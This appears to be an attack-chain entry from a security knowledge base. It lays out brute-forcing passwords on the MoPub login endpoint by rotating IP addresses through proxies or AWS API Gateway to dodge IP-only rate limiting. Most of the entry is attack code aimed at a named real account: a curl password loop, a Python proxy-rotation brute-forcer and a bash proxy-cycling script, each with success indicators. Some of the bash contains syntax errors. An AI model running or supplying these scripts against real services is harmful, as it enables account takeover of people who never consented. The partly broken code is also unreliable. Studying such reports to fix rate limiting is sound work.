

---
tags:
  - brute-force
  - rate-limiting-bypass
  - ip-rotation
  - authentication-bypass
type: attack_chain
tools:
  - '[[tools/curl]]'
  - '[[tools/ProxyRequests]]'
  - '[[tools/AWS-API-Gateway]]'
  - '[[tools/IPRotate-Burp-Extension]]'
tactics:
  - '[[Initial Access]]'
commands:
  - '[[commands/mopub-login-payload-example]]'
  - '[[commands/mopub-rate-limit-test-curl-loop]]'
  - '[[commands/mopub-proxy-rotation-bash-script]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Test-IP-Based-Rate-Limiting-on-MoPub-Login]]'
  - '[[procedures/Bypass-Rate-Limiting-Using-Proxy-Rotation-in-Python]]'
  - '[[procedures/Alternative-Bypass-with-AWS-API-Gateway-or-Bash-Proxy-Script]]'
step_count: 3
techniques:
  - '[[Brute Force]]'
  - '[[Connection Proxy]]'
description: >-
  Multi-stage attack exploiting weak IP-only rate limiting on MoPub login to
  enable unlimited brute-force attempts leading to account takeover.
skill_level: intermediate
impact_level: high
id: d6ce6f0e-c74f-49b1-91c4-ffe9b6662d35
created_at: '2025-12-14T17:30:26.753Z'
updated_at: '2025-12-14T17:30:26.753Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Brute Force]]'
  - '[[Connection Proxy]]'
---
# Brute-Force MoPub Account Passwords via IP Rotation to Bypass Rate Limiting

Multi-stage attack chain demonstrating how to exploit improper restriction of authentication attempts on the MoPub login endpoint, where rate limiting is only at the IP level, allowing bypass via IP rotation for unlimited brute-force attacks and potential account takeovers.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes for 1000 requests |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]
- [[tools/ProxyRequests]]
- [[tools/AWS-API-Gateway]]
- [[tools/IPRotate-Burp-Extension]]

### Target Environment

- Web platform
- Access to MoPub login endpoint: https://app.mopub.com/web-client/api/user/login (POST)
- List of target passwords in a file (e.g., PASS_LIST)
- Proxy list or AWS setup for IP rotation

### Initial Access Requirements

- No prior credentials needed
- Public internet access to the endpoint
- Valid CSRF token (obtainable from initial login page visit)

## Detailed Attack Procedures

### Step 1: Test IP-Based Rate Limiting
procedure: [[procedures/Test-IP-Based-Rate-Limiting-on-MoPub-Login]]

**Objective**: Verify the IP-level rate limiting threshold by sending repeated login attempts until the IP is banned, confirming the vulnerability.

**Instructions**: Prepare a password list file (PASS_LIST) and execute [[commands/mopub-rate-limit-test-curl-loop]] to send POST requests with a fixed username and varying passwords:

```bash
while read pass; do curl -i -s -k -X $'POST' -H $'Host: app.mopub.com' -H $'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:73.0) Gecko/20100101 Firefox/73.0' -H $'Accept: */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Content-Type: application/json' -H $'x-csrftoken: ███████' -H $'Origin: https://app.mopub.com' -H $'Referer: https://app.mopub.com/login?next=/' -H $'Cookie: csrftoken=███████; _ga=██████; mp__mixpanel=%7B%22distinct_id%22%3A%20%███%22%2C%22$device_id%22%3A%20%███████%22%2C%22accountKey%22%3A%20%22%22%2C%22accessLevel%22%3A%20%22%22%2C%22$initial_referrer%22%3A%20%22$direct%22%2C%22$initial_referring_domain%22%3A%20%22$direct%22%7D; ██████_mixpanel=%7B%22distinct_id%22%3A%20%22██████████%22%2C%22$initial_referrer%22%3A%20%22https%3A%2F%2Fapp.mopub.com%2Faccount%2Flogin%2F%22%2C%22$initial_referring_domain%22%3A%20%22app.mopub.com%22%2C%22accessLevel%22%3A%20%22loggedOut%22%2C%22accountKey%22%3A%20null%2C%22__mps%22%3A%20%7B%7D%2C%22__mpso%22%3A%20%7B%7D%2C%22__mpus%22%3A%20%7B%7D%2C%22__mpa%22%3A%20%7B%7D%2C%22__mpu%22%3A%20%7B%7D%2C%22__mpr%22%3A%20%5B%5D%2C%22__mpap%22%3A%20%5B%5D%2C%22$user_id%22%3A%20%22█████%22%2C%22$had_persisted_distinct_id%22%3A%20true%2C%22$device_id%22%3A%20%22████████%22%7D; mp_mixpanel__c=3' --data-binary $'{"username":"alert.wids@gmail.com","password":"$pass"}' $'https://app.mopub.com/web-client/api/user/login';done < PASS_LIST
```

Monitor responses for 401/400 until a ban (e.g., 503) after approximately 120 requests.

**Expected Output**: HTTP 401/400 for failed logins; HTTP 503 after rate limit hit.

**Success Indicators**:
- IP banned after ~120 requests
- No account-level lockout observed

### Step 2: Bypass Rate Limiting Using Proxy Rotation
procedure: [[procedures/Bypass-Rate-Limiting-Using-Proxy-Rotation-in-Python]]

**Objective**: Rotate through proxies to evade IP bans and continue brute-forcing without interruption.

**Instructions**: Use the ProxyRequests Python library to send requests via rotating proxies. Configure headers including CSRF token, then loop through passwords for the target username, checking for success (204) or failure (401/400).

Example Python snippet (adapt from library docs):

```python
import proxyrequests as pr
proxies = ['proxy1:port', 'proxy2:port']  # Proxy list
passwords = ['pass1', 'pass2']  # From PASS_LIST
headers = {'x-csrftoken': '███████', 'Content-Type': 'application/json', 'Origin': 'https://app.mopub.com'}
for proxy in proxies:
    pr.session().proxies = {'http': proxy, 'https': proxy}
    for pwd in passwords:
        response = pr.post('https://app.mopub.com/web-client/api/user/login', json={'username': 'alert.wids@gmail.com', 'password': pwd}, headers=headers)
        if response.status_code == 204:
            print('Success!')
        elif response.status_code in [400, 401]:
            print('Failed')
```

**Expected Output**: Continuous requests without bans; 204 on successful password match.

**Success Indicators**:
- Requests succeed beyond 120 without IP ban
- Potential 204 response indicating account access

### Step 3: Alternative Bypass with AWS API Gateway or Bash Proxy Script
procedure: [[procedures/Alternative-Bypass-with-AWS-API-Gateway-or-Bash-Proxy-Script]]

**Objective**: Use AWS API Gateway for IP rotation or a bash script with proxy arrays to scale brute-force attempts up to 1000 in minutes.

**Instructions**: For bash, define proxy and password arrays, then execute [[commands/mopub-proxy-rotation-bash-script]] to cycle through up to 5 requests per proxy:

```bash
#!/bin/bash

proxyip=(proxy1 proxy2 ...) #put your proxy here

pass=(pass1 pass2 ...) #put your list of password here

echo "| PASSWORD | PROXY_IP Server_Status "
for(( i=0; i<=100; i++))
do
proxys=${proxyip[i]}

COUNTER=0
for(( p; p<=999; p=$[$p+1]))
do
COUNTER=$[$COUNTER +1]
pas=${pass[p]}
res=`curl -i -s -k -X $'POST' -H $'Host: app.mopub.com' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:74.0) Gecko/20100101 Firefox/74.0' -H $'Accept: */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Content-Type: application/json' -H $'x-csrftoken: █████████' -H $'Content-Length: 62' -H $'Origin: https://app.mopub.com' -H $'Connection: close' -H $''-H $'Referer: https://app.mopub.com/login' -H $'Cookie: csrftoken=████' -b $'csrftoken=█████████' --data-binary $'{"username":"alert.wids@gmail.com","password":"$pas"}'$'https://app.mopub.com/web-client/api/user/login' -x "$proxys"|grep -a ' 403\| 400\| 204\| 401\| 503'`


echo "| $pas | $proxys${res}"
if[[ $COUNTER -ge 5 ]];then
break
fi
continue
done
p=$[$p + 1]
done
```

Alternatively, configure AWS API Gateway to proxy requests and rotate IPs.

**Expected Output**: Echoed passwords, proxies, and status codes (e.g., 403, 400, 204, 401, 503).

**Success Indicators**:
- 1000+ requests completed without global ban
- 204 status on correct password

## Attack Chain Summary

### Key Achievements

1. Confirmed IP-only rate limiting vulnerability
2. Bypassed limits using proxy rotation for unlimited attempts
3. Enabled potential account takeover via brute-force

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Brute Force]] Brute Force
- [[Connection Proxy]] Proxy

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access

---

*Last updated: 2023-10-01T00:00:00Z*
